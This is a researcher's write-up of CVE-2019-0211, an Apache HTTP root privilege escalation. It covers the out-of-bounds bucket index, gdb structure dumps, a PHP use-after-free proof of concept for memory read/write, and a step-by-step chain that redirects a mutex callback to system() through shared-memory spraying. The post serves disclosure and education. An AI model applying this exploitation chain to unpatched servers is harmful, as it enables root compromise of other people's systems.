



cfreal
cfreal
CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation
2019-04-03Introduction
From version 2.4.17 (Oct 9, 2015) to version 2.4.38 (Apr 1, 2019), Apache HTTP suffers from a local root privilege escalation vulnerability due to an out-of-bounds array access leading to an arbitrary function call.
The vulnerability is triggered when Apache gracefully restarts (apache2ctl graceful).
In standard Linux configurations, the logrotate utility runs this command once a day, at 6:25AM, in order to reset log file handles.
The vulnerability affects mod_prefork, mod_worker and mod_event. The following bug description, code walkthrough and exploit target mod_prefork.
Bug description
In MPM prefork, the main server process, running as root, manages a pool of single-threaded, low-privilege (www-data) worker processes, meant to handle HTTP requests.
In order to get feedback from its workers, Apache maintains a shared-memory area (SHM), scoreboard, which contains various informations such as the workers PIDs and the last request they handled.
Each worker is meant to maintain a process_score structure associated with its PID, and has full read/write access to the SHM.
ap_scoreboard_image: pointers to the shared memory block
(gdb) p *ap_scoreboard_image
$3 = {
global = 0x7f4a9323e008,
parent = 0x7f4a9323e020,
servers = 0x55835eddea78
}
(gdb) p ap_scoreboard_image->servers[0]
$5 = (worker_score *) 0x7f4a93240820
Example of shared memory associated with worker PID 19447
(gdb) p ap_scoreboard_image->parent[0]
$6 = {
pid = 19447,
generation = 0,
quiescing = 0 '\000',
not_accepting = 0 '\000',
connections = 0,
write_completion = 0,
lingering_close = 0,
keep_alive = 0,
suspended = 0,
bucket = 0 <- index for all_buckets
}
(gdb) ptype *ap_scoreboard_image->parent
type = struct process_score {
pid_t pid;
ap_generation_t generation;
char quiescing;
char not_accepting;
apr_uint32_t connections;
apr_uint32_t write_completion;
apr_uint32_t lingering_close;
apr_uint32_t keep_alive;
apr_uint32_t suspended;
int bucket; <- index for all_buckets
}
When Apache gracefully restarts, its main process kills old workers and replaces them by new ones.
At this point, every old worker's bucket value will be used by the main process to access an array of his, all_buckets.
all_buckets
(gdb) p $index = ap_scoreboard_image->parent[0]->bucket
(gdb) p all_buckets[$index]
$7 = {
pod = 0x7f19db2c7408,
listeners = 0x7f19db35e9d0,
mutex = 0x7f19db2c7550
}
(gdb) ptype all_buckets[$index]
type = struct prefork_child_bucket {
ap_pod_t *pod;
ap_listen_rec *listeners;
apr_proc_mutex_t *mutex; <--
}
(gdb) ptype apr_proc_mutex_t
apr_proc_mutex_t {
apr_pool_t *pool;
const apr_proc_mutex_unix_lock_methods_t *meth; <--
int curr_locked;
char *fname;
...
}
(gdb) ptype apr_proc_mutex_unix_lock_methods_t
apr_proc_mutex_unix_lock_methods_t {
...
apr_status_t (*child_init)(apr_proc_mutex_t **, apr_pool_t *, const char *); <--
...
}
No bound checks happen. Therefore, a rogue worker can change its bucket index and make it point to the shared memory, in order to control the prefork_child_bucket structure upon restart. Eventually, and before privileges are dropped, mutex->meth->child_init() is called.
This results in an arbitrary function call as root.
Vulnerable code
We'll go through server/mpm/prefork/prefork.c to find out where and how the bug happens.
- A rogue worker changes its
bucketindex in shared memory to make it point to a structure of his, also in SHM. - At 06:25AM the next day,
logrotaterequests a graceful restart from Apache. - Upon this, the main Apache process will first kill workers, and then spawn new ones.
- The killing is done by sending
SIGUSR1to workers. They are expected to exit ASAP. - Then,
prefork_run()(L853) is called to spawn new workers. Sinceretained->mpm->was_gracefulistrue(L861), workers are not restarted straight away. - Instead, we enter the main loop (L933) and monitor dead workers' PIDs. When an old worker dies,
ap_wait_or_timeout()returns its PID (L940). - The index of the
process_scorestructure associated with this PID is stored inchild_slot(L948). - If the death of this worker was not fatal (L969),
make_child()is called withap_get_scoreboard_process(child_slot)->bucketas a third argument (L985). As previously said,bucket's value has been changed by a rogue worker. make_child()creates a new child,fork()ing (L671) the main process.- The OOB read happens (L691), and
my_bucketis therefore under the control of an attacker. child_main()is called (L722), and the function call happens a bit further (L433).SAFE_ACCEPT(<code>)will only execute<code>if Apache listens on two ports or more, which is often the case since a server listens over HTTP (80) and HTTPS (443).- Assuming
<code>is executed,apr_proc_mutex_child_init()is called, which results in a call to(*mutex)->meth->child_init(mutex, pool, fname)with mutex under control. - Privileges are dropped a bit later in the execution (L446).
Exploitation
The exploitation is a four step process:
1. Obtain R/W access on a worker process
2. Write a fake prefork_child_bucket structure in the SHM
3. Make all_buckets[bucket] point to the structure
4. Await 6:25AM to get an arbitrary function call
Advantages:
- The main process never exits, so we know where everything is mapped by reading /proc/self/maps (ASLR/PIE useless)
- When a worker dies (or segfaults), it is automatically restarted by the main process, so there is no risk of DOSing Apache
Problems:
- PHP does not allow to read/write /proc/self/mem, which blocks us from simply editing the SHM
- all_buckets is reallocated after a graceful restart (!)
1. Obtain R/W access on a worker process
PHP UAF 0-day
Since mod_prefork is often used in combination with mod_php, it seems natural to exploit the vulnerability through PHP. CVE-2019-6977 would be a perfect candidate, but it was not out when I started writing the exploit. I went with a 0day UAF in PHP 7.x (which seems to work in PHP5.x as well):
PHP UAF
<?php
class X extends DateInterval implements JsonSerializable
{
public function jsonSerialize()
{
global $y, $p;
unset($y[0]);
$p = $this->y;
return $this;
}
}
function get_aslr()
{
global $p, $y;
$p = 0;
$y = [new X('PT1S')];
json_encode([1234 => &$y]);
print("ADDRESS: 0x" . dechex($p) . "\n");
return $p;
}
get_aslr();
This is an UAF on a PHP object: we unset $y[0] (an instance of X), but it is still usable using $this.
UAF to Read/Write
We want to achieve two things:
- Read memory to find all_buckets' address
- Edit the SHM to change bucket index and add our custom mutex structure
Luckily for us, PHP's heap is located before those two in memory.
Memory addresses of PHP's heap, ap_scoreboard_image->* and all_buckets
root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p
7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so
(gdb) p *ap_scoreboard_image
$14 = {
global = 0x7f4a9323e008,
parent = 0x7f4a9323e020,
servers = 0x55835eddea78
}
(gdb) p all_buckets
$15 = (prefork_child_bucket *) 0x7f4a9336b3f0
Since we're triggering the UAF on a PHP object, any property of this object will be UAF'd too; we can convert this zend_object UAF into a zend_string one.
This is useful because of zend_string's structure:
(gdb) ptype zend_string
type = struct _zend_string {
zend_refcounted_h gc;
zend_ulong h;
size_t len;
char val[1];
}
The len property contains the length of the string. By incrementing it, we can read and write further in memory, and therefore access the two memory regions we're interested in: the SHM and Apache's all_buckets.
Locating bucket indexes and all_buckets
We want to change ap_scoreboard_image->parent[worker_id]->bucket for a certain worker_id. Luckily, the structure always starts at the beginning of the shared memory block, so it is easy to locate.
Shared memory location and targeted process_score structures
root@apaubuntu:~# cat /proc/6318/maps | grep rw-s
7f4a9323e000-7f4a93252000 rw-s 00000000 00:05 57052 /dev/zero (deleted)
(gdb) p &ap_scoreboard_image->parent[0]
$18 = (process_score *) 0x7f4a9323e020
(gdb) p &ap_scoreboard_image->parent[1]
$19 = (process_score *) 0x7f4a9323e044
To locate all_buckets, we can make use of our knowledge of the prefork_child_bucket structure. We have:
Important structures of bucket items
prefork_child_bucket {
ap_pod_t *pod;
ap_listen_rec *listeners;
apr_proc_mutex_t *mutex; <--
}
apr_proc_mutex_t {
apr_pool_t *pool;
const apr_proc_mutex_unix_lock_methods_t *meth; <--
int curr_locked;
char *fname;
...
}
apr_proc_mutex_unix_lock_methods_t {
unsigned int flags;
apr_status_t (*create)(apr_proc_mutex_t *, const char *);
apr_status_t (*acquire)(apr_proc_mutex_t *);
apr_status_t (*tryacquire)(apr_proc_mutex_t *);
apr_status_t (*release)(apr_proc_mutex_t *);
apr_status_t (*cleanup)(void *);
apr_status_t (*child_init)(apr_proc_mutex_t **, apr_pool_t *, const char *); <--
apr_status_t (*perms_set)(apr_proc_mutex_t *, apr_fileperms_t, apr_uid_t, apr_gid_t);
apr_lockmech_e mech;
const char *name;
}
all_buckets[0]->mutex will be located in the same memory region as all_buckets[0]. Since meth is a static structure, it will be located in libapr's .data. Since meth points to functions defined in libapr, each of the function pointers will be located in libapr's .text.
Since we have knowledge of those region's addresses through /proc/self/maps, we can go through every pointer in Apache's memory and find one that matches the structure. It will be all_buckets[0].
As I mentioned, all_buckets's address changes at every graceful restart. This means that when our exploit triggers, all_buckets's address will be different than the one we found. This has to be taken into account; we'll talk about this later.
2. Write a fake prefork_child_bucket structure in the SHM
Reaching the function call
The code path to the arbitrary function call is the following:
bucket_id = ap_scoreboard_image->parent[id]->bucket
my_bucket = all_buckets[bucket_id]
mutex = &my_bucket->mutex
apr_proc_mutex_child_init(mutex)
(*mutex)->meth->child_init(mutex, pool, fname)

Calling something proper
To exploit, we make (*mutex)->meth->child_init point to zend_object_std_dtor(zend_object *object), which yields the following chain:
mutex = &my_bucket->mutex
[object = mutex]
zend_object_std_dtor(object)
ht = object->properties
zend_array_destroy(ht)
zend_hash_destroy(ht)
val = &ht->arData[0]->val
ht->pDestructor(val)
pDestructor is set to system, and &ht->arData[0]->val is a string.

As you can see, both leftmost structures are superimposed.
3. Make all_buckets[bucket] point to the structure
Problem and solution
Right now, if all_buckets' address was unchanged in between restarts, our exploit would be over:
- Get R/W over all memory after PHP's heap
- Find
all_bucketsby matching its structure - Put our structure in the SHM
- Change one of the
process_score.bucketin the SHM so thatall_bucket[bucket]->mutexpoints to our payload
As all_buckets' address changes, we can do two things to improve reliability: spray the SHM and use every process_score structure - one for each PID.
Spraying the shared memory
If all_buckets' new address is not far from the old one, my_bucket will point close to our structure. Therefore, instead of having our prefork_child_bucket structure at a precise point in the SHM, we can spray it all over unused parts of the SHM. The problem is that the
structure is also used as a zend_object, and therefore it has a size of (5 * 8 =) 40 bytes to include zend_object.properties.
Spraying a structure that big over a space this small won't help us much.
To solve this problem, we superimpose the two center structures, apr_proc_mutex_t and zend_array, and spray their address in the rest of the shared memory.
The impact will be that prefork_child_bucket.mutex and zend_object.properties point to the same address.
Now, if all_bucket is relocated not too far from its original address, my_bucket will be in the sprayed area.

Using every process_score
Each Apache worker has an associated process_score structure, and with it a bucket index.
Instead of changing one process_score.bucket value, we can change every one of them, so that they cover another part of memory. For instance:
ap_scoreboard_image->parent[0]->bucket = -10000 -> 0x7faabbcc00 <= all_buckets <= 0x7faabbdd00
ap_scoreboard_image->parent[1]->bucket = -20000 -> 0x7faabbdd00 <= all_buckets <= 0x7faabbff00
ap_scoreboard_image->parent[2]->bucket = -30000 -> 0x7faabbff00 <= all_buckets <= 0x7faabc0000
This multiplies our success rate by the number of apache workers. Upon respawn, only one worker have a valid bucket number, but this is not a problem because the others will crash, and immediately respawn.
Success rate
Different Apache servers have different number of workers. Having more workers mean we can spray the address of our mutex over less memory, but it also means we can specify more index for all_buckets. This means that having more workers improves our success rate. After a few tries on my test Apache server of 4 workers (default), I had ~80% success rate. The success rate jumps to ~100% with more workers.
Again, if the exploit fails, it can be restarted the next day as Apache will still restart properly. Apache's error.log will nevertheless contain notifications about its workers segfaulting.
4. Await 6:25AM for the exploit to trigger
Well, that's the easy step.
Vulnerability timeline
- 2019-02-22 Initial contact email to
security[at]apache[dot]org, with description and POC - 2019-02-25 Acknowledgment of the vulnerability, working on a fix
- 2019-03-07 Apache's security team sends a patch for I to review, CVE assigned
- 2019-03-10 I approve the patch
- 2019-04-01 Apache HTTP version 2.4.39 released
Apache's team has been prompt to respond and patch, and nice as hell. Really good experience. PHP never answered regarding the UAF.
Questions
Why the name ?
CARPE: stands for CVE-2019-0211 Apache Root Privilege Escalation
DIEM: the exploit triggers once a day
I had to.
Can the exploit be improved ?
Yes. For instance, my computations for the bucket indexes are shaky. This is between a POC and a proper exploit. BTW, I added tons of comments, it is meant to be educational as well.
Does this vulnerability target PHP ?
No. It targets the Apache HTTP server.
Exploit
The exploit is available here.